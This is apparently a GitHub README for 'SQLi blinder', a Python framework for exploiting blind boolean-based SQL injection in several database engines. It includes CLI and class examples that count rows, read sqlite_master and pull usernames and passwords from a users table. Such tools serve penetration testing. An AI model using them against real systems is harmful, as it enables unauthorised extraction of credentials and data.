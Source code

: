 # SQLi blinder

Framework for blind boolean-based sql injections explotation. Use it if sqlmap does shit. 

Support:
- MySQL
- MSSQL
- SQLite
- Oracle
- PostgreSQL

Requires Python 3.x.

There are no dependencies, just `pip install requests` for example `request_func`, or `pip install aiohttp` for async example.

## Usage

You could use sqlib.py console utility or do your own script by importing `sqli_blinder.SQLiBlinder`, but both cases requires you to create your own `request_func`.

### Prepare request_func

The `request_func` must paste single input param to your SQL injection and issue request.
It must return `True` for input param `1=1` and `False` for input param `1=0`.

It's OK to throw on unexpected behavior.

Example presented in `sqlib.py`.

Check your `request_func` with:

```python
SQLiBlinder(request_func,dbms).check()
```

If you want to use sqlib.py - replace `request_func` with your own.

### Async version of request_func

Limitation of standart version is that it works sequentially. Multithreading is applied only for string chars search. When string is found, it use single thread to determine length of next string and etc.

Async allows make more task simultaniously, so it is supposed to be faster.

But it require you to make async `request_func`. You could use one of python HTTP async clients such as `aiohttp` or [make requests async](https://stackoverflow.com/questions/22190403/how-could-i-use-requests-in-asyncio).

You can find example of async `request_func` in sqlib_async.py.

### Run sqlib.py

sqlib_async.py use same syntax.

```
usage: sqlib.py [-h] [-t TABLE] [-c COLUMN] [-w WHERE] [-i INDEX]
                [--threads THREADS] --dbms {mysql,mssql,sqlite,oracle,postgre}
                {check,count,one,get}

positional arguments:
  {check,count,one,get}
                        mode - one of ['check','count','one','get']

optional arguments:
  -h, --help            show this help message and exit
  -t TABLE, --table TABLE
                        table nmae
  -c COLUMN, --column COLUMN
                        column names. For get mode could by comma separated array of columns
  -w WHERE, --where WHERE
                        where clause
  -i INDEX, --index INDEX
                        index of row
  --threads THREADS     number of threads
  --dbms {mysql,mssql,sqlite,oracle} DBMS
  --order-by ORDER_BY   order by column name or index
  -s, --silent          not print output during retrieving
```

Examples:

`python sqlib.py check` - check `request_func`

`python sqlib.py count -t sqlite_master --dbms sqlite` - get count of rows in `sqlite_master` table

`python sqlib.py count -t users --dbms sqlite --where "username='admin'"` - get number of rows in `users` table where `username`=`admin`

`python sqlib.py one -t users -c password -i 1 --dbms sqlite` - get value of `password` column in `users` table with index `1`

`python sqlib.py get -t users -c username,password --dbms sqlite` - get all `username` and `password` from `users` table

### SQLiBlinder class

Intended public methods:

- `check()` - check provided `request_func` with `1=1` and `1=0` payloads

- `get_count(table_name,where=None)` - get count of rows in `table` with provided `where` clause

- `get_string(table,column,index,where=None)` - get value of `column` in `table` with index=`index`. `where` is optional

- `get(columns,table_name,where=None)` - get all columns in `columns` from `table` where `where`

examples:

```python
sqlib = SQLiBlinder(request_func,'sqlite',multithreaded=True,threads=16)
sqlib.check() # True
sqlib.get_count('sqlite_master') # number of rows in sqlite_master
sqlib.get_string('sqlite_master','sql',1,) # code of first table
sqlib.get(['username','password'],'users') # all usernames and passwords
sqlib.get(['username','password'],'users',where="username='admin'") # admins username and password
```
